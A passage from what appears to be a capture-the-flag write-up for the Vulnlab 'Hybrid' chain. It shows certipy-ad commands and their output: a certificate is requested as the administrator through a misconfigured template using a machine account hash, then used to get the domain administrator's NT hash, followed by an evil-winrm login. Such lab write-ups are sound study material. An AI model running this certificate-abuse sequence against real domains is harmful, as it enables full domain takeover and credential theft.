When requesting the administrator hash using the certificate, we got the following error:

```
┌──(destiny㉿falcon)-[~/Vulnlab/Chains/Hybrid]
└─$ certipy-ad auth -pfx 'administrator.pfx' -username 'administrator' -domain 'hybrid.vl' -dc-ip 10.10.155.165 -debug

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@hybrid.vl
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERROR_CLIENT_NOT_TRUSTED(Reserved for PKINIT)
```

We removed the certificate `administrator.pfx` and then used the following command to request the certificate again:

```
┌──(destiny㉿falcon)-[~/Vulnlab/Chains/Hybrid]
└─$ certipy-ad req -u 'MAIL01$' -hashes ":0f916c5246fdbc7ba95dcef4126d57bd" -dc-ip "10.10.228.165" -ca 'hybrid-DC01-CA' -template 'HYBRIDCOMPUTERS' -upn 'administrator' -target 'dc01.hybrid.vl' -key-size 4096
Certipy v4.8.2 - by Oliver Lyak (ly4k)

/usr/lib/python3/dist-packages/certipy/commands/req.py:459: SyntaxWarning: invalid escape sequence '\('
  "(0x[a-zA-Z0-9]+) \([-]?[0-9]+ ",
[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 19
[*] Got certificate with UPN 'administrator'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

Then we were able to request the administrator's hash using the certificate.

```
┌──(destiny㉿falcon)-[~/Vulnlab/Chains/Hybrid]
└─$ certipy-ad auth -pfx 'administrator.pfx' -username 'administrator' -domain 'hybrid.vl' -dc-ip 10.10.155.165 -debug

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@hybrid.vl
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@hybrid.vl': aad3b435b51404eeaad3b435b51404ee:60701e8543c9f6db1a2af3217386d3dc
```

Was able to use `evil-winrm` to log in to the DC as the administrator and obtain the root flag.
